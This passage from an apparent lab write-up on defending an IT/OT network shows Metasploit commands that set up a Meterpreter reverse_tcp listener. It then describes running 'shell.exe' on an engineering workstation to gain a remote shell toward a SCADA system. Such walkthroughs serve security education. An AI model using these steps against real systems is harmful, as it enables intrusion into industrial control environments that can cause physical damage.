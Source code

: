 <pre><code><span style="color:rgba(255, 255, 255, 0.5)">msf6 ></span> use exploit/multi/handler</code></pre>

<pre><code><span style="color:rgba(255, 255, 255, 0.5)">msf6 ></span> set PAYLOAD windows/meterpreter/reverse_tcp</code></pre>

<pre><code><span style="color:rgba(255, 255, 255, 0.5)">msf6 ></span> set LHOST 192.168.1.4</code></pre>

<pre><code><span style="color:rgba(255, 255, 255, 0.5)">msf6 ></span> set LPORT 4444</code></pre>

<pre><code><span style="color:rgba(255, 255, 255, 0.5)">msf6 ></span> run</code></pre>

#### Figure 10

_Metasploit Listener_

![Metasploit Listener](/assets/images/defending-it-ot-network/Fig11-listening.png)

Once the listener was set up and listening, I re-opened the SSH connection to the Engineering Station and remotely executed the “shell.exe” file, connecting to the Attack PC and opening the remote shell. Entering the Meterpreter command “getuid” revealed that I did not yet have SYSTEM privileges, as shown in Figure 11, but there are several other Metasploit modules that would be able to escalate to that level. However, in this case the engineer user has sufficient privileges for our purposes in gaining access to the SCADA. This gives the attacker control over the industrial process and can result in very damaging effects.



#### Figure 11

_Meterpreter Remote Shell Connected to Target_

![Meterpreter Remote Shell Connected to Target](/assets/images/defending-it-ot-network/Fig12-remote-shell-connected.png)
 